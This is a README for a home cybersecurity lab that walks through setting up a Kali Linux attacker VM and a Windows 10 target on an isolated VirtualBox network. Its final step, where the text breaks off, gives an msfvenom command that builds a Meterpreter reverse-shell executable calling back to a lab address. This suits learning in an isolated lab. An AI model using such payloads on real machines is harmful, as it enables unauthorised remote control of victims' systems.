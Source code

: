 # 🧪 Cybersecurity Home Lab Setup 
---

## 📄 Description

This project sets up a virtualized cybersecurity lab using VirtualBox to simulate attacker-victim scenarios. It includes configuring a Kali Linux attacker machine and a Windows 10 target machine on a host-only/internal network. The environment provides a safe and isolated setup for testing network attacks, reverse shells, and other ethical hacking techniques.

---

## 🖥️ Environments Used

- **Host OS**: Windows 10 or macOS
- **Virtualization**: VirtualBox (v7.x) + Extension Pack
- **Attacker VM**: Kali Linux
- **Target VM**: Windows 10 (Eval or ISO)

---

## 🛠️ Languages and Tools Used

- VirtualBox
- Kali Linux Tools (nmap, msfvenom, etc.)
- Windows Sysinternals
- Meterpreter (Metasploit Framework)

---

## ⚙️ Program Walkthrough

---

### 1. Install VirtualBox & Extension Pack

Install Oracle VirtualBox and its Extension Pack from [virtualbox.org](https://www.virtualbox.org/).

📸 *Screenshot Example:*  
![VirtualBox Installed](./screenshots/virtualbox-launch.png)

---

### 2. Create Virtual Machines

Create two VMs with these specs:

| VM        | RAM    | Disk Size | OS         |
|-----------|--------|-----------|------------|
| Kali      | 2 GB   | 20 GB     | Kali Linux |
| Windows   | 4 GB   | 40+ GB    | Windows 10 |

📸 *Screenshot Example:*  
![VM Creation](./screenshots/kali-vm-details.png)

---

### 3. Configure Network (Host-Only)

Set both VMs to the **Internal Newtwork** to allow isolated communication.

📸 *Screenshot Example:*  
![Network Config](./screenshots/network_settings_kali.png)

---

### 4. Boot VMs and Set IP Addresses

Use `ip a` on Kali and `ipconfig` on Windows to confirm both VMs are on the same subnet.

📸 *Screenshot Example:*  
![Kali IP](./screenshots/kali-ip.png)  
![Windows IP](./screenshots/windows-ip.png)

---

### 5. Install Guest Additions (Windows Only)

Fix resolution on Windows VM by installing Guest Additions.

📸 *Screenshot Example:*  
![Guest Additions](./screenshots/guest-additions.png)

---

### 6. Test Connectivity

Ping each machine from the other to confirm they’re connected.

📸 *Screenshot Example:*  
![Ping Test](./screenshots/ping-test.png)

---

### 7. Generate & Deploy Payload (Optional Preview)

In later parts, we generate a reverse shell using `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.56.101 lport=4444 -f exe > shell.exe



